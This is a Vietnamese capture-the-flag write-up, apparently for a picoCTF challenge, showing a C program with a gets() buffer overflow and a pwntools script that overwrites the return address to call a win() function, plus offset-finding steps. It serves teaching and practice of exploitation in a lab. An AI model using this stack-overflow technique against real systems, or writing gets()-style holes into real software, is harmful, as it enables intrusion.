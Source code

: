 ![[Pasted image 20250925154954.png]]

Chạy thử chương trình:
![[Pasted image 20250925155024.png]]

Thử kiểm tra bằng `checksec`:
![[Pasted image 20250925155928.png]]

Mã nguồn chương trình:
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include "asm.h"

#define BUFSIZE 32
#define FLAGSIZE 64

void win() {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  printf(buf);
}

void vuln(){
  char buf[BUFSIZE];
  gets(buf);

  printf("Okay, time to return... Fingers Crossed... Jumping to 0x%x\n", get_return_address());
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  puts("Please enter your string: ");
  vuln();
  return 0;
}
```


Dễ thấy, để có được flag, ta cần gọi được hàm `win`. Ta tận dụng lỗi buffer overflow, do thấy mảng buf[] được khai báo với 32 ô nhớ, sử dụng `gets()` để nhập (gets() là hàm dễ gây lỗi).

Ta cần tìm **offset** register EIP. Sau ghi đè register này bằng địa chỉ hàm `win()`.
Để tìm được offset này, ta tạo **pattern** với pwntools.
```python
from pwn import *
print(cyclic(1000))
```

```bash
python offset.py > pattern.txt
```

Debug chương trình vuln với `pwndbg`, nạp vào pattern vừa tạo, ta có giá trị trong thanh ghi EIP khi chương trình bị Segmentation Fault:
![[Pasted image 20250925161532.png]]

Từ đây ta dò ra được offset, bằng cách tìm xem từ này nằm ở vị trí nào trong `pattern`. Ta có thể tự động hoá việc này bằng `cyclic_find()` tích hợp trong pwntools.
```python
from pwn import *
print(cyclic_find(0x6161616c))
```

![[Pasted image 20250925161841.png]]

Như vậy ta có được offset của EIP là 44.
Bây giờ ta cần tìm địa chỉ của hàm `win()`. Ta dùng `disassemble win` trong pwndbg, vậy là có ngay.
![[Pasted image 20250925162148.png]]

Giờ ta viết payload với pwntools. Nạp vào 44 bytes đầu để tới được EIP, sau đó chèn địa chỉ của hàm `win()` vào.
```python
from pwn import *

# p = process('./vuln')
host = 'saturn.picoctf.net'
port = 55096
p = remote(host, port)

offset = 44
ret_addr = 0x080491f6

payload = b"A" * offset + p32(ret_addr)
p.sendline(payload)
p.interactive()
```


Chạy `payload.py`, ta có được flag:
![[Pasted image 20250925160749.png]]

